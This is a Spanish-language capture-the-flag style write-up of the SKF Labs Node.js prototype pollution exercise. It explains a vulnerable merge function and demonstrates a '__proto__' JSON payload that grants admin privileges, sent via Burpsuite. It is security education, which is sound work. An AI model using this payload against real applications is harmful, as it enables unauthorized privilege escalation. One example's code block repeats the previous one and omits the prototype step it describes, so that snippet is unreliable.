# Prototype Pollution
    

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs/nodejs/Prototype-Pollution
npm install
```

Una ves instalado y creada una nueva, la página se verá de la siguiente manera:



En este caso, no se muestra nada en el campo “Admin”, esto se debe a que el usuario no es administrador.

La idea es elevar los privilegios para convertirse en usuario administrador.

## Código

El siguiente fragmento de código define una constante llamada “users” la cual contiene dos objetos en array: “admin” y “user”, el objeto “admin” tiene tres propiedades con un valor respectivo.



La siguiente línea de código (53) crea un nuevo objeto llamado **`obj`** que combina el cuerpo de la solicitud **`req.body`** con una propiedad adicional **`ipAddress`** que contiene la dirección IP de la solicitud **`req.ip`**. El objeto resultante se puede utilizar posteriormente en el código para realizar alguna lógica o procesamiento adicional.



Al enviar un mensaje al admin en la web, el merge lo que hará es unir lo que se está trasmitiendo a nivel de petición (”email” y “msg”) y la IP.





Esto se capturó utilizando el “console.log(obj)” en la línea 54

## JavaScript Online (programiz.com)

Para explicar esto de otra forma, se utilizará la siguiente estructura de código:

```bash
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};
```

Para mostrar cómo funciona el merge, se añadirá una variable “body” la cual contendrá lo que el usuario ingresará en el input, es decir, “email” y “msg” y a nivel de consola se hará un merge entre el body y una dirección IP que en este caso será la 127.0.0.1:

```bash
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};

# Prueba de merge()
var body = JSON.parse('{"email": "test@test", "msg": "Esto 
es una prueba"}');

console.log(merge({"ipAddress": "127.0.0.1"}, body));
```

El resultado es el siguiente:



Ahora se agregarán dos objetos más: “bryan” y “admin” los cuales tendrán algunas propiedades:

```bash
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};

# Dos objetos nuevos
var bryan = {"name": "bryan", "age": 10}
var admin = {"name": "admin", "age": 46, "isAdmin": true}

# Prueba de merge()
var body = JSON.parse('{"email": "test@test", "msg": 
"Esto es una prueba"}');

console.log(merge({"ipAddress": "127.0.0.1"}, body));

# Muestra del valor de la propiedad "isAdmin" de cada 
# usuario
console.log("¿El usuario admin es administrador? -> " + 
admin.isAdmin);
console.log("¿El usuario bryan es administrador? -> " + 
bryan.isAdmin);
```

Si por la consola se muestra el valor de la propiedad del objeto “admin”, el resultado sería “true” pero si se muestra el valor de esta misma propiedad para el usuario “bryan”, el resultado es “undefined” esto debido a que el usuario bryan no tiene esta propiedad definida.



## Prototype Pollution

Aquí es donde entra el **prototipo** ya que cuando una propiedad no existe para un objeto, en este caso el objeto “bryan”, lo que hace es ver por su prototipo el cual hereda si no existe una propiedad para el objeto actual.

### Ejemplo #1

Dado que en la petición se puede modificar, se puede añadir otra propiedad que se llame “__proto__” a la cual como valor tendrá “isAdmin” igual a “true”, de forma que ahora para objetos en los cuales no esté representada la propiedad “isAdmin”, a la hora de representar esta propiedad en esos objetos, como no existe entre sus propiedades actuales, heredará el prototipo insertado por el usuario junto con su valor por lo que en este caso hará que “bryan.isAdmin” sea igual a true.

```bash
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};

# Dos objetos nuevos
var bryan = {"name": "bryan", "age": 10}
var admin = {"name": "admin", "age": 46, "isAdmin": true}

# Prueba de merge() / Input del usuario
var body = JSON.parse('{"email": "test@test", "msg": 
"Esto es una prueba", "__proto__": {"isAdmin": true}}');

console.log(merge({"ipAddress": "127.0.0.1"}, body));

# Muestra del valor de la propiedad "isAdmin" de cada 
# usuario
console.log("¿El usuario admin es administrador? -> " + 
admin.isAdmin);
console.log("¿El usuario bryan es administrador? -> " + 
bryan.isAdmin);
```



### Ejemplo #2

Otra forma de explicar este Prototype Pollution es de la siguiente forma.

El objeto “pedro” y “sara” tiene la propiedad “admin” con el valor “Es admin” establecido pero el objeto “bryan” no tiene esta propiedad definida por lo que al llamar la propiedad “admin” del usuario bryan, el resultado será “undefined”.

```bash
# Creación de objetos
var pedro = {}
var sara = {}
var bryan = {}

# Creación de propiedades
pedro.admin = "Es admin"
sara.admin = "Es admin"

# Mostrar resultados en consola
console.log("El usuario pedro: ", pedro.admin)
console.log("El usuario sara: ", sara.admin)
console.log("El usuario bryan: ", bryan.admin)
```



Pero ahora al agregar un prototipo a uno de los objetos que tiene el valor de la propiedad “admin” definida, hará que todos los objetos que no tengan esta propiedad definida, hereden esta propiedad, de forma que al llamar al objeto “bryan” con la propiedad “admin”, como no existe una propiedad “admin” en el objeto “bryan”, heredará la del prototipo y mostrará su valor:

```bash
# Creación de objetos
var pedro = {}
var sara = {}
var bryan = {}

# Creación de propiedades
pedro.admin = "Es admin"
sara.admin = "Es admin"

# Mostrar resultados en consola
console.log("El usuario pedro: ", pedro.admin)
console.log("El usuario sara: ", sara.admin)
console.log("El usuario bryan: ", bryan.admin)
```



### Ejemplo #2 - Explotación en el lab

Ahora para aplicar esto en la web, se intercepta la petición con Burpsuite y tratar la petición para que esté en formato JSON y añadir el prototipo con el valor de la propiedad “admin” en “true”.



Ahora, al recargar la página, el valor de “Admin” cambia a “true” haciendo que el usuario bryan sea administrador:



En este caso, se conocía que la propiedad se llama “admin”, en casos de no saberlo se podría fuzzear o llegar a conseguir ver el código fuente para ver qué propiedades se están utilizando.
